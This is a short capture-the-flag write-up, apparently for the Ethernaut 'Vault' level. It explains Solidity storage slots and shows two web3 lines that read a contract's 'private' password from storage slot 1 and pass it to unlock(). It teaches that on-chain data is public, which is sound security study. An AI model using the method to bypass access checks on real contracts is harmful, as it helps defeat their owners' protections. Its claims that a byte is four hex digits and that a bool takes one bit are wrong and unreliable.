 # Vault

> Everything you use in a smart contract is publicly visible, even local variables and state variables marked "private".

#### How variables store in the storage layout

-   each slot store up to 32 bytes
    > The slots are 32 bytes long.
    > 1 byte = 8 bits = 4 nibbles = 4 hexadecimal digits.
    > In practice, when using e.g getStorageAt we get string hashes of length 64 + 2 ('0x') = 66.
-   stores only variables, not constant
-   variables store in slot from right to left
-   if the size of the variable does not fit for the remaining size of the slot, it will goes in the next new slot

#### Attack

There are two variables in the contract

```
  bool public locked;
  bytes32 private password;
```

-   bool locked is declared first and it takes 1 bit of slot index 0
-   bytes32 password is 32 bytes so it need a full slot so it goes in the next slot at index 1

-   get storage slot 1

```javascript
const slot1 = await web3.eth.getStorageAt(contract.address, 1)
```

-   unlock the vault

```javascript
await contract.unlock(slot1)
```

---

-   https://docs.soliditylang.org/en/v0.8.17/security-considerations.html
-   https://kubertu.com/blog/solidity-storage-in-depth/
-   https://medium.com/coinmonks/how-to-read-private-variables-in-contract-storage-with-truffle-ethernaut-lvl-8-walkthrough-b2382741da9f
